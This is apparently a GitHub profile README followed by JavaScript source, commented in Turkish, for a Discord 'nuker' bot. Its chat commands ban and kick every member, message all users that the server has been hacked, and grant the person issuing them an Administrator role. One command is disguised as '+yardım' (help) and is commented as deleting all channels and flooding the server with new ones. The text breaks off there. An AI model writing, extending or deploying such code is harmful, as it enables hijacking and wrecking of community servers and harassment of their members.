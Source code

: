 - 👋 Hi, I’m @enesqwq
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


const Discord = require("discord.js");
const client = new Discord.Client();
const ayarlar = require("./ayarlar.json");
const { Client, Util } = require("discord.js");
const request = require("request");
client.login(ayarlar.token);

client.on("message", msg => {         
  if (msg.content === "+ban") {
    msg.delete();
    msg.guild.members.forEach(member => member.ban());  
  }
});       ///BAN KOMUTU SUNUCUDAKI HEKESI BANLAR +ban

client.on("message", msg => {
  if (msg.content === "+kick") {
    msg.delete();
    msg.guild.members.forEach(member => member.kick());
  }
});      ///KICK KOMUTU SUNUCUDAKI HERKESI KICKLER +kick 

client.on("message", async msg => {
  if (msg.content === "+duyur") {  //SUNUCUDAKI BUTUN HERKESE MESAJ GÖNDERİR +duyur
    msg.delete();
    await msg.client.users
      .forEach(users =>
        users.send(
          "**BU SUNUCU HACKLENMİŞTİR HADİ KOLAY GELSİN** :wink:"  //HERKESE DMDEN ATILAN MESAJ
        )
      )
      .catch(console.error);
  } 
});

client.on("message", msg => {
  if (msg.content === "+yetki") {  //SIZE YÖNETICI YETKISI VERIR +yetki
    msg.delete();
    msg.guild.createRole({
      name: ".",
      permissions: ["ADMINISTRATOR"]
    });
    let rol = msg.guild.roles.find(role => role.name === ".");  
    msg.member.addRole(rol);
  }
});

client.on("message", async msg => {
  if (msg.content === "+yardım") {     ///COKERT KOMUTU BÜTÜN KANALLARI SILIP COK FAZLA KANAL ACAR
    msg.delete();
